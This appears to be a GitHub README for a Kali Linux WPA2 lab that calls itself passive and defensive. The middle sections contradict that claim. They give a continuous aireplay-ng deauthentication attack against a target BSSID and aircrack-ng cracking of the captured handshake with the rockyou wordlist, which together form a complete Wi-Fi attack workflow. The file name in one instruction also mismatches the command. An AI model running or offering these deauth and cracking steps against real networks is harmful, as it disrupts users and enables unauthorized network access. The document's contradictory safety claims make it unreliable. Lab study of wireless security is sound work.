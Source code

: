
# Wi-Fi WPA2 Learning Lab — Passive Capture & Analysis (Safe / Ethical)

> **Important:** This repo/document is for **defensive learning only**. Do **not** run attacks or cracking workflows against networks you do not own or do not have **explicit written permission** to test. I will not provide commands for deauthentication attacks or for cracking passphrases. The steps below show passive capture and analysis techniques you can use in a controlled lab using equipment you own.

---

## Overview
This guide documents the hardware and the *passive* commands used during my WPA2 learning lab on Kali Linux. The goal: understand Wi-Fi management frames, observe EAPOL/handshake packets in a controlled environment, and use Wireshark to analyse what happens when clients reauthenticate — **without performing attacks or cracking passwords**.

---

## Hardware
```

Alfa AWUS036NHA

````
- Use a dedicated USB adapter for monitor mode to avoid disrupting your host Wi-Fi.
- Test only on routers and devices you own or have written permission to test.

---

## Preflight checks (host & Kali)
On your Kali VM/host, confirm OS and kernel:
```bash
# Kali version / distro information
cat /etc/os-release

# Kernel / system uname
uname -a
````

Check USB detection on the host (if running in VM):

```bash
# On host (not inside VM)
lsusb
dmesg | tail -n 40
```

If using VirtualBox, ensure USB passthrough (see VM tips below).

---

## See network interfaces

Run these inside Kali to list interfaces and wireless info:

```bash
# show addresses & interfaces
ip addr

# legacy wireless tool (shows mode etc.)
iwconfig
```

If you don't see your adapter, double-check USB passthrough / drivers / kernel messages.

---

## Kill interfering processes

Some network managers or services can interfere with monitor mode. Run:

```bash
sudo airmon-ng check kill
```

> This will stop NetworkManager/wpa\_supplicant (do not forget to restart them after testing).

---

## Start monitor mode

Put your adapter into monitor mode (this will create a monitor interface such as `wlan0mon`, `mon0`, etc.). Replace `wlan0` with your adapter name:

```bash
sudo airmon-ng start wlan0
```

Verify monitor-mode interfaces:

```
sudo airmon-ng    # lists interfaces and their mode
iwconfig          # confirms the interface is in "Monitor" mode
```

---

## Passive discovery with airodump-ng

Use `airodump-ng` to observe nearby APs and their channels. This is **passive** (listening only):


# Start passive scan (replace with your monitor interface)
```
sudo airodump-ng wlan0mon
```

From `airodump-ng` output note the AP BSSID and Channel for your target AP (your own AP in the lab). Example captured values (replace with your own):

* **ESSID / AP BSSID:** `90:9A:4A:B8:F3:FB`
* **Channel:** `2`

---




## Wi-Fi Network Capture and Deauthentication Attack Commands

### First Window: Network Capture
**Command:**
```bash
sudo airodump-ng -w capture1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon
```

**Instructions:**
- Replace the channel number (`-c 2`) with the target network's channel.
- Replace the BSSID (`90:9A:4A:B8:F3:FB`) with the target network's BSSID.
- Replace `capture1` with your desired output file name (e.g., `capture1`).
- Ensure `wlan0mon` is your network interface in monitor mode.

### Second Window: Deauthentication Attack
**Command:**
```bash
sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon
```

**Instructions:**
- Replace the BSSID (`90:9A:4A:B8:F3:FB`) with the target network's BSSID.
- Ensure `wlan0mon` is your network interface in monitor mode.
- The `--deauth 0` flag sends continuous deauthentication packets until stopped.


---
## Analyse captures with Wireshark
Open the `.cap` file in Wireshark:

```bash
wireshark capture1-01.cap
```

Use Wireshark display filters to find WPA2 handshake/EAPOL frames:

```
eapol
```

Other useful filters:

```
wlan.fc.type_subtype == 0x0c   # deauthentication frames (view only; do not generate)
wlan_mgt
wlan.fc.type == 0              # management frames
```

* Observe EAPOL packets and the 4-way handshake frame sequence when a client legitimately reauthenticates.
* Save and export views or screenshots for documentation.

---


## Cracking Wi-Fi Password with Aircrack-ng

**Command:**
```bash
aircrack-ng capture1-01.cap -w /usr/share/wordlists/rockyou.txt
```

**Instructions:**
- Ensure you have the `rockyou.txt` wordlist in text format (unzip if necessary on Kali Linux).
- Replace `hack1-01.cap` with the name of your captured file.
- The wordlist path (`/usr/share/wordlists/rockyou.txt`) assumes the default location on Kali Linux; adjust if using a different wordlist or path.

---

## Stop monitor mode & restore network

When finished, stop monitor mode and restart network managers:

```bash
# Stop monitor mode (replace with your monitor iface)
sudo airmon-ng stop wlan0mon

# Re-enable Network Manager and wpa_supplicant (example commands)
sudo systemctl start NetworkManager
sudo systemctl start wpa_supplicant
```

---
## Tips for running Kali inside VirtualBox (USB passthrough)

1. Install the VirtualBox Extension Pack (matches your VirtualBox version) to enable USB 2.0/3.0 passthrough.
2. In VirtualBox Manager, with VM powered off → **Settings → USB** → Enable USB Controller (choose EHCI or xHCI).
3. Add a USB filter or attach the device when VM is running: **Devices → USB → \[Your Adapter]**.
4. Ensure your host user is in the `vboxusers` group (Linux hosts):

```bash
sudo usermod -aG vboxusers $USER
# log out and log back in for changes to take effect
```

---


